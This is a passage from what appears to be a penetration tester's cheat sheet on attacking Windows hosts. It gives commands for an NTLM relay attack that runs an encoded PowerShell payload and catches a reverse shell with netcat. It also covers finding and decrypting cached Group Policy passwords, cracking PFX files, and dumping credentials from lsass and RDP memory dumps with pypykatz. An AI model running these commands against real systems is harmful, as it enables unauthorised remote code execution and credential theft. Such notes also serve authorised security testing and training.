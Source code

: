 > Windows UAC will restrict any user accounts behaviour remotely other than the local administrator

>In this example we don't use the local Administrator user for the relay attack as we did for the pass-the-hash attack. Therefore, the target system needs to have UAC remote restrictions disabled or the command execution will fail. If UAC remote restrictions are enabled on the target then we can only use the local Administrator user for the relay attack. 
```
kali: impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA...(UTF-16LE base64 encoded payload)"
kali: nc -nvlp 8080
files01: dir \\192.168.119.2\test
```
### Cached GPP Password
>Search in C:\ProgramData\Microsoft\Group Policy\history or in C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history (previous to W Vista) for these files:
```
Groups.xml
Services.xml
Scheduledtasks.xml
DataSources.xml
Printers.xml
Drives.xml
```
Decrypting GPP Password
```
gpp-decrypt "gpp"
```
### PFX file
```
john pfx_file --wordlist=dic
```
### cracking lsass.dmp
```
pypykatz lsa minidump /home/kali/Desktop/forensic/memory_analysis/lsass.dmp
```
### cracking rdp dmp 
```
pypykatz rdp logonpasswords minidump /home/kali/Desktop/forensic/memory_analysis/winlogon.DMP
```
